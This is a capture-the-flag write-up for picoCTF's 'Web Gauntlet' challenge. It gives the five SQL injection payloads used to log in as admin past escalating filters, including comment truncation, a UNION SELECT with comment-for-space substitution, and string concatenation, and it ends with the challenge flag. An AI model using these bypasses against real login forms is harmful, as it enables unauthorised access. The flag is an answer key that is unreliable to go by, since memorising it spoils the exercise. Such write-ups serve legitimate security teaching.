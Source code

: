 # Web Gauntlet
### Points: 200

## Category
#### Web Exploitation

## Question
#### Can you beat the filters? Log in as admin http://jupiter.challenges.picoctf.org:29164/ http://jupiter.challenges.picoctf.org:29164/filter.php
### Hint
>#### 1. You are not allowed to login with valid credentials.
>#### 2. Write down the injections you use in case you lose your progress.
>#### 3. For some filters it may be hard to see the characters, always (always) look at the raw hex in the response.
>#### 4. sqlite
>#### 5. If your cookie keeps getting reset, try using a private browser window


## Solution
### Round 1
#### Look at this website main page http://jupiter.challenges.picoctf.org:29164/
![pico](a/10.png)
#### Look at this website filter page http://jupiter.challenges.picoctf.org:29164/filter.php
![pico](a/11.png)
```base
Username = admin' --
Password = a
```
### Round 2
#### Look at this website Round 2 page http://jupiter.challenges.picoctf.org:29164/index.php
![pico](a/12.png)
#### Look at this website filter Round 2 page http://jupiter.challenges.picoctf.org:29164/filter.php
![pico](a/13.png)
```base
Username = admin'/*
Password = a
```
### Round 3
#### Look at this website Round 2 page http://jupiter.challenges.picoctf.org:29164/index.php
![pico](a/14.png)
#### Look at this website filter Round 2 page http://jupiter.challenges.picoctf.org:29164/filter.php
![pico](a/15.png)

```base
Username = admin'/*
Password = a
```
### Round 4
#### Look at this website Round 2 page http://jupiter.challenges.picoctf.org:29164/index.php
![pico](a/16.png)
#### Look at this website filter Round 2 page http://jupiter.challenges.picoctf.org:29164/filter.php
![pico](a/17.png)

```base
Username = bob'/**/UNION/**/SELECT/**/*/**/FROM/**/users/**/LIMIT/**/1;
Password = a
```
### Round 5
#### Look at this website Round 2 page http://jupiter.challenges.picoctf.org:29164/index.php
![pico](a/19.png)
#### Look at this website filter Round 2 page http://jupiter.challenges.picoctf.org:29164/filter.php
![pico](a/18.png)

```base
Username = adm'||'in'/*
Password = a
```
#### Go to the filter.php page get tha flag.
![pico](a/20.png)

## Flag
`picoCTF{y0u_m4d3_1t_a3ed4355668e74af0ecbb7496c8dd7c5}`